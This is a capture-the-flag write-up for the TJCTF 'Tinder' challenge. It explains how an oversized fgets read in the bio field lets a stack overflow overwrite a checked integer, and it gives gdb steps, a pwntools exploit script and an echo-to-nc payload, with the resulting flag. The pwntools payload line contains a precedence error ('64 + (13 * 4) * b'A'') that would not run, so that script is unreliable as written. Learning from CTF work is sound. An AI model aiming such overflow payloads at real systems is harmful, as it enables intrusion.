








# Tinder

Points: **25 Points**

nc p1.tjctf.org 8002

## My thought process:

Fire it up! Time to put my simulation dating skills to practice!



:( Maybe I'm not cool enough!
Just kidding, so taking notes, we have 4 inputs and username is reflected in "Registered {username} to TJTinder..", possible printf exploit?

So, let's try it!



No luck, we could try to overflow it, but let's look at the source code first. Even if its an overflow flaw, we should get more precision by reading the source. So I opened it in Ghidra.

Here's the core of the main function:




So if that int variable is equal something, we get our flag read! Amazing.

We probably want to deep dive into the functions that read our input, gets, scanf, read, but what's that? input? Never seem something like that, and what's even weirder, it takes a float argument? Hm....

Before jumping into the input function, let's take some notes on the code.

So I stripped some code to highlight our areas of interest.



We have to check the input function and then look at the input we must pass to _my_checked_number_.

Let's look at the input function first.



It uses fgets to read, hmmm.., interesting, but how many chars does it read?

It reads our float passed to the function times 16.

🤔


What's the size of our buffers?

I've translated the input argument to the corresponding bytes read.



Oops! Looks like someone miscalculated something.

Now we now our entry point! We have to overflow the bio description and in some way overwrite _my_checked_number_.

Let's take a look at what we have to write in it.

I had a glance at it in gdb, but there's other ways you can find this value.
I was in gdb to check what was the offset needed to overflow our int.

I started throwing 64 bytes at it. With the following commands:

* b* main+231 (right after bio input)
* r < <(echo -e 'name\n''user\n''123\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
* x/80wx $esp

Let's look at the dissas code of main.



So now we know that that value was 0xc0d3d00d, but how far off is 64 bytes from the int(ebp-0xc) ?

```bash
gdb-peda$ i r ebp
ebp            0xffffd3a8          0xffffd3a8
gdb-peda$ shell python -c 'print( hex(0xffffd3a8-0xc))'
0xffffd39c
```



Our "A"'s are the 0x41, each block has 4 chars, we are 13 blocks away, so our offset is 64 + (13 * 4), and our payload:

'A'*(64 + (13 * 4)) + 0xc0d3d00d


---
_ps_: You could get 0xc0d3d00d by removing the signal of -0x3f2c2ff3, and then passing it to hex.

```python3
>>> # removing signal
>>> -0x3f2c2ff3 & 0xffffffff
3235106829
>>> # hexing the result
>>> hex(-0x3f2c2ff3 & 0xffffffff)
'0xc0d3d00d'
```  
  
  
### Final script
---

```python3
#!/usr/bin/env python
from pwn import *

#e = ELF('tinder')
#io = e.process()
io = remote('p1.tjctf.org', 8002)
#context.terminal = ['tmux', 'splitw','-h']
#gdb.attach(io)

io.recvuntil('Name: ')
io.sendline('name')
io.recvuntil('Username: ')
io.sendline('username')
io.recvuntil('Password: ')
io.sendline('password')
io.recvuntil('Bio: ')

payload = 64 + (13 * 4) * b'A'
payload += p32(0xc0d3d00d)
io.sendline(payload)

io.interactive()
```

We are using pwntools here, but if you are doing it by hand, with echo and stuff, remember little-endian.
Something like

```bash
echo -e 'name\n''user\n''pass\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0d\xd0\xd3\xc0\n' | nc p1.tjctf.org 8002
```

### Result
---

```
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```
